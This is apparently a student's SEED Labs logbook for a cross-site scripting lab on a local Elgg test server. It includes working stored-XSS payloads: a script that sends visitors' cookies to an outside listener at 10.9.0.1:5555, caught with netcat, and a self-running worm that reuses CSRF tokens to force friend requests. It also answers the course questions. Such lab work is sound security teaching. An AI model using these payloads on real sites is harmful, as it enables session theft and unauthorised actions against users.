 # Seedlab Week #7 (Cross-Site Scripting XSS Attack Lab)

# Question 1

### Task 1: Posting a Malicious Message to Display an Alert Window

In this task, our goal was to embed a JavaScript program in the Elgg user profile. In this case, we will insert the following script:

```html
<script>alert('XSS');</script>
```

First, we logged in with the `alice` username and `seedalice` password. Then, we navigated to Alice's profile page at `http://www.seed-server.com/profile/alice`, clicked on `Edit profile`, selected the Editor mode option, pasted the JavaScript script into the `Brief description` field and saved it.

As a result, any user who opened our profile page saw an alert window on the screen, as shown below. This happens because when visiting the profile page, the script tag is loaded and executed which can be used for Cross Site Scripting.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task1.png"/>
</p>

### Task 2: Posting a Malicious Message to Display Cookies

In this task, we aimed to show the user's cookies in an alert window. For this, we used the following script:

```html
<script>alert(document.cookie);</script>
```

The solution for this task was similar to the previous one: we inserted the script in the `Brief description` field of Alice's profile. Then, we logged in from another account (`boby` username and `seedboby` password).

When the visiting Alice's profile page, the previous script was executed, and we saw our cookies in the alert box. This shows us a simple example of how the script can be used maliciously.

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task2.png"/>
</p>

### Task 3: Stealing Cookies from the Victim’s Machine

In this task, our objective was to retrieve cookies from another user and access them from another source. To do this, we decided to use the following script:

```html
<script>
    document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

This code sends the cookies to port 5555, so we needed to listen on this port by using the command `nc -lknv 5555` in our terminal. After this, if we placed the code in Alice's profile, log in with Boby's account and visit Alice's profile, the script would be executed and we would receive the cookies in the terminal.

The output from terminal:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task3.png"/>
</p>

### Task 4: Becoming the Victim’s Friend

For this final task, we needed to write an XSS worm that would automatically add Samy as a friend to anyone who opened Samy's page.

#### Analyze the HTTP request

Before preparing the script, we had to find out how the HTTP request for adding a new friend looks like. To achieve this, we used Firefox’s `Header Live` tool.

We opened the `Header Live` and logged in as Samy (`samy`, `seedsamy`). We then opened Alice's profile and clicked on `Add friend`. The extension allowed us to see the output shown below:

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task4.1.png"/>
</p>

By analyzing the first request we are able to retrieve all the information necessary. We discovered that it was a `GET` request with this url: `http://www.seed-server.com/action/friends/add?friend=56&__elgg_ts=1731083830&__elgg_token=-TLgvgywckY6XBpLAcdx4w&__elgg_ts=1731083830&__elgg_token=-TLgvgywckY6XBpLAcdx4w`

#### JavaScript Worm

For the next step, we modified the script template to send a request to add a friend, using the request structure previously analyzed. The final result of this script was the following:

```html
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;  /* (1) */
        var token = "&__elgg_token=" + elgg.security.token.__elgg_token; /* (2) */
        
        //Construct the HTTP request to add Samy as a friend.
        var sendurl = "http://www.seed-server.com/action/friends/add?friend=59" + ts + token + ts + token;
        
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

We constructed the `sendurl` variable based on the request URL, using Samy's friend ID (found as `"owner_guid":59` in the page HTML).

To prepare the attack, we then placed the code in Samy's `About me` section (using `Edit HTML` to insert the code) and visited his profile page with a different account (Boby).

By doing this, the script was executed and, as a result, simply by visiting Samy's page, Boby automatically sent a request to add Samy as a friend (which can be confirmed in Samy's perspective).

<p align="center" justify="center">
  <img src="./assets/LOGBOOK7/task4.2.png"/>
</p>

#### Task 4: Question 1

> Explain the purpose of Lines 1 and 2, why are they are needed?

After analyzing the request that is sent upon clicking the `Add Friend` button, we can see that a timestamp and a token are passed, in order validate the request. Therefore, the purpose of both lines (1) and (2) is to obtain/prepare these values so that we can send them in our request, as they are expected by server. 
Without these lines, our XSS attack would be unable to perform authenticated actions (like adding friends).  
Specifically the purpose of each line is:
  * First line: retrieve and add the timestamp security token.
  * Second line: retrieve and add the CSRF token.

#### Task4: Question 2

> If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

To be able to launch the attack, we needed to add the `<script>` tag to the `About Me` section, so that when the website renders the tag, it executes the code contained within the script.  
This exploit can only happen in the Text mode because any text that is written in Editor mode is escaped, leading to safer text that is rendered exactly as plaintext when shown again in the `About Me` section.  
This can be seen if we write `<script>alert('XSS');</script>` in visual editor, save and then analyze it has HTML, which would show the following: `<p>&lt;script&gt;alert('XSS');&lt;/script&gt;</p>` (same output but characters are escaped).  
In conclusion, if the Elgg application only provided the Editor mode for the "About me" section, we could not launch this attack, at least not using the profile description.

# Question 2

This XSS attack can be classified as **Stored XSS**.  
In this attack, we start by saving the malicious payload (the JavaScript script) in the database ("About Me" section of the user profile) of a legitimate source (the Elgg website). After this, any user that accesses this website and visits the user profile will execute this malicious script and trigger its effects (add the user as a friend). This XSS pattern fits the **Stored XSS** category and is very similar to the Samy Worm studied in class.
